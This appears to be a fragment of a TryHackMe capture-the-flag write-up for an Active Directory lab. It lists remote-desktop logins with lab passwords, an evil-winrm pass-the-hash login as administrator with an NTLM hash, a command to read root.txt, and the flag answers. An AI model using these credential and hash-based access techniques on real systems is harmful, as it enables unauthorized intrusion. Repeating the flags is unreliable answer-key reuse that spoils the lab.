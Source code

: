 
# Task 8 Flag Submission Flag Submission Panel

### svc-admin

`xfreerdp /v:10.10.104.207 /u:svc-admin /p:management2005 /timeout:30000`

Answer: `TryHackMe{K3rb3r0s_Pr3_4uth}`
### backup

`xfreerdp /v:10.10.104.207 /u:backup /p:backup2517860 /timeout:30000'
Answer: `TryHackMe{B4ckM3UpSc0tty!}`
### Administrator

`evil-winrm -i spookysec.local -u administrator -H 0e0363213e37b94221497260b0bcb4fc`

`type "c:\users\administrator\desktop\root.txt"`

Answer: `TryHackMe{4ctiveD1rectoryM4st3r}`



